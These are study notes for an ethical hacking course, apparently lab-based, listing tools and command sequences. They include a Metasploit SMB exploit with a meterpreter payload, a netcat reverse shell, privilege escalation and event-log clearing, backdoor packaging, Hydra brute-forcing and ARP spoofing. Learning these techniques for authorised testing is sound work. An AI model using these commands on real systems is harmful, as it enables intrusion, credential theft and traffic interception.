 # Complete Ethical Hacking Bootcamp 2021: Zero to Mastery

https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery

## Section 4: Reconnaissance & Information Gathering
* ping
* whois
* nslookup
* https://ipinfo.info/
* whatweb
* theHarvester
* hunter.io
* sherlock

## Section 5: Scanning
* metasploitable
* arp
* netdiscover
* nmap

## Section 7: Vulnerability Analysis
* nmap scripts
* google search exploit
* searchsploit
* nessus

## Section 8: Exploitation & Gaining Access
* metasploit framework
  * msfconsole
```
msf6 > show exploits
msf6 > use exploits/windows/smb/ms06_640_netapi
msf6 exploit(windows/smb/ms06_640_netapi) > show info
msf6 exploit(windows/smb/ms06_640_netapi) > show options
msf6 exploit(windows/smb/ms06_640_netapi) > set RHOSTS 192.168.1.26
msf6 exploit(windows/smb/ms06_640_netapi) > show payloads
msf6 exploit(windows/smb/ms06_640_netapi) > set payload windows/meterpreter/bind_tcp
msf6 exploit(windows/smb/ms06_640_netapi) > show targets
msf6 exploit(windows/smb/ms06_640_netapi) > set target 3
msf6 exploit(windows/smb/ms06_640_netapi) > exploit
msf6 exploit(windows/smb/ms06_640_netapi) > run
msf6 > search vsftpd
msf6 > sessions
msf6 > sessions -i <id>
```
* netcat
```
# Server
$ nc -lvp 12345
# Client
$ nc -e /bin/bash 192.168.1.9 12345
```
* telnet
* search routersploit

## Section 9: SMBGhost CVE 2020-0796 - Windows 10 Manual Exploitation
* https://rufus.ie/

## Section 10: Gaining Access (Viruses, Trojans, Payloads...)
* Msfvenom
```
$ msfvenom -p ...
$ msfvenom --list encoders
```
* virustotal
* veil
* TheFatRat
* Hexeditor

## Section 11: Post Exploitation - Elevating Privileges, Extracting Data, Running Keyloggers ..
* meterpreter (support both linux and window commands)
```
meterpreter > help
meterpreter > background
meterpreter > guid
meterpreter > getuid
meterpreter > pwd
meterpreter > dir
meterpreter > ls
meterpreter > shell
meterpreter > getsystem
meterpreter > search -f *.jpg
meterpreter > clearev
meterpreter > run post/windows/gather/enum_applications
```
* search bypassuac
```
msf6 > search bypassuac
```
* search persistence
```
msf6 > search persistence
```

## Section 12: Python Coding Project #2 - Backdoor
* run at server
```
$ python3 server.py
```
* run at client
```
$ python3 backdoor.py
```
* Compile to window exe file
```
$ pyinstaller backdoor.py --onefile --noconsole
```

## Section 13: Website Application Penetration Testing
* dirb
* burpsuite
* ShellShock
* Command Injection
* Reflected XSS
* Stored XSS
* HTML Injection
* SQL Injection
* CSRF Vulnerability
* Hydra Bruteforce Attack
```bash
hydra -h
hydra 192.168.1.9 http-form-post "/dvwa/login.php:username=^USER^&password=^PASS^&Login=submit:Login failed" -L usernames.txt -P passwords.txt
# Include cookie values
hydra 192.168.1.9 http-get-form "/dvwa/valnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H-Cookie: security=low; PHPSESSID=de86e1e9f8e1f54dfed367fd82665aaa" -L usernames.txt -P passwords.txt
```

## Section 15: Man In The Middle - MITM
* Bettercap ARP Spoofing
```bash
apt-get install bettercap
bettercap
>> help net.probe
>> net.probe on
>> help arp.spoof
>> set arp.spoof.fullduplex true
>> set arp.spoof.targets 192.168.1.7
>> help net.sniff
>> set net.sniff.local true
>> arp.spoof on
>> net.sniff on
>> exit

# sniff.cap store all above commands
bettercap -iface eth0 -caplet sniff.cap
```
* Check packet forwarding
```bash
cat /proc/sys/net/ipv4/ip_forward

# enable packet forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward
```
* Ettercap (Password Sniffing)
```bash
ettercap -G

# discover host on the network
# Host List
# Add to Target1
# MITM Menu > ARP poisoning
```
* check ARP cache
```bash
arp -a
```
* Poisoning Targets ARP Cache With Scapy
```bash
sudo scapy
>>> ls(Ether)
>>> ls(ARP)
>>> ls(TCP)
>>> ls(Ether)
>>> boardcast = Ether(dst='ff:ff:ff:ff:ff:ff')
>>> boardcast.show()
>>> ls(ARP)
>>> arp_layer = ARP(pdst='192.168.1.7')
>>> arp_layer.show()
>>> entire_packet = boardcast/arp_layer
>>> entire_packet.show()
>>> answer = srp(entire_packet, timeout=2, verbose=True)[0]
>>> print(answer)
>>> print(answer[0])
>>> print(answer[0][1].hwsrc)
>>> target_mac_address = answer[0][1].hwsrc
>>> packet = ARP(op=2, hwdst=target_mac_address, pdst='192.168.1.7', psrc='192.168.1.1')
>>> packet.show()
>>> send(packet, verbose=False)
```

